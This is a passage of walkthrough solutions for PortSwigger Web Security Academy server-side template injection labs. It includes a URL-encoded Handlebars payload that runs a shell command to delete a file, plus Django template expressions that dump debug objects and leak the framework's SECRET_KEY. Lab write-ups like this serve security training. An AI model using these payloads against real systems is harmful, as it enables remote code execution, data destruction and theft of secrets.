 5. URL encode your exploit and add it as the value of the message parameter in the URL. The final exploit should look like this, but remember to replace ``your-lab-id`` with your own lab ID:
```
https://your-lab-id.web-security-academy.net/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```
6. The lab should be solved when you load the URL.

## Server-side template injection with information disclosure via user-supplied objects
Reference: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects


### Solution
1. Log in and edit one of the product description templates.
2. Change one of the template expressions to something invalid, such as a fuzz string ``${{<%[%'"}}%\``, and save the template. The error message in the output hints that the Django framework is being used.
3. Study the Django documentation and notice that the built-in template tag ``debug`` can be called to display debugging information.
4. In the template, remove your invalid syntax and enter the following statement to invoke the ``debug`` built-in:
```
{% debug %}
```
5. Save the template. The output will contain a list of objects and properties to which you have access from within this template. Crucially, notice that you can access the ``settings`` object.
6. Study the ``settings`` object in the Django documentation and notice that it contains a ``SECRET_KEY`` property, which has dangerous security implications if known to an attacker.
7. In the template, remove the ``{% debug %}`` statement and enter the expression 
```
{{settings.SECRET_KEY}}
```
8. Save the template to output the framework's secret key.
9. Click the "Submit solution" button and submit the secret key to solve the lab.